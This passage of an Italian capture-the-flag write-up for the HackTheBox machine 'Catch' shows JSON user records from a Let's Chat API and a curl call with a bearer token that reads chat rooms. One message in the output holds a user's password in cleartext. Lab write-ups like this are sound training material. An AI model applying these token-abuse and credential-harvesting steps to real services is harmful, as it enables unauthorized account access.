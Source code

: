```json
    "username": "will",
    "displayName": "Will",
    "avatar": "7c6143461e935a67981cc292e53c58fc",
    "openRooms": [
      "61b86b3fd984e2451036eb18",
      "61b86b28d984e2451036eb17"
    ]
  },
  {
    "id": "61b86f15fe190b466d476bf5",
    "firstName": "Lucas",
    "lastName": "NA",
    "username": "lucas",
    "displayName": "Lucas",
    "avatar": "b36396794553376673623dc0f6dec9bb",
    "openRooms": [
      "61b86b28d984e2451036eb17",
      "61b86b3fd984e2451036eb18"
    ]
  }
]
```

Nel sito abbiamo anche il [link al git](https://github.com/sdelements/lets-chat) di tale servizio; leggendo si è visto la presenza di *rooms* e andando ad indagare tra le varie room, si è scoperta la password di *john*: `curl -X GET "http://catch.htb:5000/rooms/61b86b28d984e2451036eb17/messages" -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ=="`

```json
[...SNIPPET...]

  {
    "id": "61b8702dfe190b466d476bfa",
    "text": "Here are the credentials `john :  E}V!mywu_69T4C}W`",
    "posted": "2021-12-14T10:21:33.859Z",
    "owner": "61b86f15fe190b466d476bf5",
    "room": "61b86b28d984e2451036eb17"
  }

[...SNIPPET...]
```

### 1.4 status.catch.htb - TCP 8000
#
